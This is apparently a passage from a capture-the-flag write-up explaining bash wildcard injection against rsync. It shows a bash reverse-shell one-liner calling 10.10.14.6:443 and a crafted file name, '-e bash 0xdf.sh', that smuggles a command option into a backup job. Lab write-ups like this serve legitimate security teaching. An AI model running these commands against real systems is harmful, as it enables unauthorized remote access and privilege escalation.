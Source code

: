     
    
    oxdf@hacky$ touch test1 test2 test3
    oxdf@hacky$ rm *
    

On the second line, bash first expands the `*` to:

    
    
    oxdf@hacky$ rm test1 test2 test3
    

And then runs that command. The trick is to make a file that actually looks
like an argument to the command being run.

So for `rsync`, there’s the `-e` flag,
[which](https://linux.die.net/man/1/rsync):

>
>     -e, --rsh=COMMAND           specify the remote shell to use
>  

This is a bit misleading. It actually typically looks like:

    
    
    $ rsync -e sh PATH_TO_SCRIPT SRC DEST
    

So if I can create a file named `-e bash rev.sh`, the wildcard will inject
into the command, and my command will run.

#### Reverse Shell

To pull this off, I’ll create two files. The first is a simple reverse shell
generated with this `echo` command:

    
    
    echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh
    

The second is an empty file, where the filename is the important part,
generated with `touch`:

    
    
    touch -- '-e bash 0xdf.sh'
    

`--` tells the command that anything after is not an argument, so it creates
that file name.

Putting that all on one line and running it creates both files:

    
    
    editor@phoenix:/backups$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh; touch -- '-e bash 0xdf.sh'
    editor@phoenix:/backups$ ls -la
    total 3632
    drwxr-x---  2 editor editor   4096 Feb 16 23:02  .
    drwxr-xr-x 21 root   root     4096 Jan 26 05:29  ..
    -rw-rw-r--  1 editor editor     53 Feb 16 23:02  .0xdf.sh
    -rw-rw-r--  1 editor editor      0 Feb 16 23:02 '-e bash .0xdf.sh'
    ...[snip]...
    